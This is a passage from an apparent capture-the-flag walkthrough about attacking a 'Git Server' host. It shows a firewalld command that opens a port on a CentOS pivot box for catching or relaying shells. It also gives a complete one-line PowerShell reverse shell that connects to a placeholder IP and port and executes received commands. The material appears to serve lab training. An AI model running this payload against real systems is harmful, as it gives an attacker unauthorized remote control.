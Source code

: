 ## `Git Server` Exploitation 


With CentOS it uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. 

Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:
```yaml
firewall-cmd --zone=public --add-port PORT/tcp
```

Substituting in your desired choice of port.

In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the protocol we want to use (TCP).

With that done, set up either a listener or a relay on .200.

![Alt text](/assets/img/posts/t_004.png)


We can then use a Powershell reverse shell for this.

```yaml
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```